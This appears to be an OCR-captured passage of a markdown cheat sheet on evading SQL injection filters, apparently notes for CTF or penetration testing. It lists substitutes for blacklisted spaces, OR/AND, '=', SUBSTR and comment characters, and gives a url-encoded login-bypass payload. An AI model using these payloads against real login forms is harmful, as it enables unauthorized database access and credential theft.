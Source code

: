 You can also achieve this via special url-encoded whitespaces like `%09 %0a %0b %0c %0d %a0`

### OR/AND blacklisted

Most databases support `|` or `||` as the OR bitwise operator and `&` or `&&` as the AND bitwise operator

In addition, `-` can work like a NOT operator in a condition, and `=` is also "overloaded" to be the AND operator (1=1 = true).

### = blacklisted

You can use LIKE, IN or NOT IN instead

- LIKE
	- WHERE pw LIKE '' (can use % wildcard as a replacement for substring)
- IN / NOT IN
	- WHERE substring(pw, 1, 1) IN ('a')
    - where password = '' in (0)||''
        - trailing ||'' to get rid of the trailing quote

### SUBSTR blacklisted

**Alternatives to substr()**

* mid("abc", 1, 1) == "a"
* left("abc", 1) == "a"

### -- /**/ # blacklisted

`user=ad%27%7C%7C%27min&pass=a%27+is+not+%27b`

`is not`

Another solution is to escape the closing apostrophe with a `\` so that the password clause becomes part of a string.

---

## Stuff to take note of

* Certain databases seem to reject the use of ; in a statement. In most cases, the semicolon isn't important, so we should always attempt SQLi without the semicolon first.
